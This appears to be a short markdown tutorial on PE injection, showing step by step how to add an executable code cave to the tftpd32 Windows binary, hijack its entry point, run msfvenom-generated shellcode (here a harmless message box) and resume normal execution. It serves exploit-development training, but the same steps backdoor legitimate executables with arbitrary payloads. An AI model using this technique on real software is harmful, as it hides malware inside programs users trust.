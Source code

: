 # PE injection

### Remarks:
- Right click -> Binary -> fill NOP or binary paste
- Save change of ASM: Copy to executable -> Save file
- navigation bar [m -> module, c -> CPU & stack]

### 1. Use LordPE to add a code cave, edit code cave (e.g. 1000 hex size) to be executable

### 2. Add none byte (1000 hex size) by hex editor

### 3. Save a backup (take notes) for the Entry Point before program start [e.g. tftp32d.exe]
```
004189BA > $ E8 369F0000    CALL tftpd32.004228F5
004189BF   .^E9 89FEFFFF    JMP tftpd32.0041884D
004189C4     CC             INT3
004189C5     CC             INT3
```

### 4. In Debugger, get code cave address (m in navigation bar) & check it is executable
```
e.g. Address=00454000
```

### 5. Edit CALL tftpd32.004228F5 --> JMP 00454000

### 6. Save registers & flags
```
pushad
pushfd
push eax * 8
```
Remark the **ESP address** after pushfd for further actions

**push eax * 8** for avoiding stack changing by shellcode

### 7. Generate shellcode (should add EXITFUNC=none)
```
msfvenom -a x86 --platform windows -p windows/messagebox TEXT="DEADCODE!" -f hex EXITFUNC=none
```
if used EXITFUNC=thread / EXITFUNC=process (default) / EXITFUNC=seh, clear the final exit or call function if needed.

### 8. Calculate of ESP original address after shellcode executed
` after saving register esp = 0012FFA0 - 0012FF3C = 64 `

### 9. Back to original address
```
ADD esp,064
popfd
popad
CALL 004228F5
JMP 004189BF
```
